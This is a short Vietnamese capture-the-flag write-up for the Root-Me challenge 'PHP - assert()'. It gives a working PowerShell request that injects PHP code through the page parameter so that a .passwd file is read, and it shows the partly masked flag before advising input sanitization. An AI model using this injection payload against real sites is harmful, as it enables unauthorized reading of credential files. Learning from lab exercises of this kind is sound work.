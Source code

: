 # PHP - assert()

## Solution

Khi vào trang web, điều đầu tiên xuất hiện trong đầu là một cuộc tấn công LFI (như các bài viết liên quan đã chỉ ra). Trang web bao gồm một trang được yêu cầu trong URL nhưng tất cả kiến ​​thức về LFI đều không đưa ra được solution

nên sau khi chơi một chút với "?page=", thấy rằng trang đang sử dụng hàm assert() dễ bị tấn công bằng command injection và sau khi xem một số thông tin trên google, có thể tạo một payload bằng PowerShell:

```
“(Invoke-WebRequest "http://challenge01.root-me.org/web-serveur/ch47/?page=about') || var_dump (file_get_contents('.passwd'));// Comment").Content”
```

Và flag được hiển thị trên terminal ;)

```
string(194) "The flag is / Le flag est :

x4Ss3*******n0**4f**7A**x
```

Nhớ sanitize tất cả dữ liệu đầu vào của người dùng! / Hãy cân nhắc việc xác thực tất cả các mục nhập được sử dụng! 

Đừng sử dụng assert! / N'utilisez pas khẳng định !

Peace 😄
